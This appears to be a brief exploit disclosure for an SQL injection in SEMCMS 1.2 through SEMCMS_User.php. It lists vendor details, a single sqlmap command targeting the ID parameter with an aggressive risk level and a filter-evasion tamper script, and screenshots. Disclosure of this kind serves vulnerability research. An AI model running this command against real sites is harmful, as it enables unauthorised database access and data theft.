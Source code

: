 * Exploit Title: SENMCMS 1.2 -  SQL injection

* Vendor Homepage:http://www.sem-cms.com

* Software Link:http://www.sem-cms.com/xiazai.html

* Version: 1.2 

* Vulnerable file:SEMCMS_User.php 
![iamge](https://github.com/BigTiger2020/SEMCMS/blob/main/SEMCMS_User.php.png)  
* SQL injection
sql command:sqlmap.py -r 7.txt --dbms=mysql --level=3 --risk=3 -p ID --tamper=space2comment --random-agent   

![iamge](https://github.com/BigTiger2020/SEMCMS/blob/main/sql-2.png)  
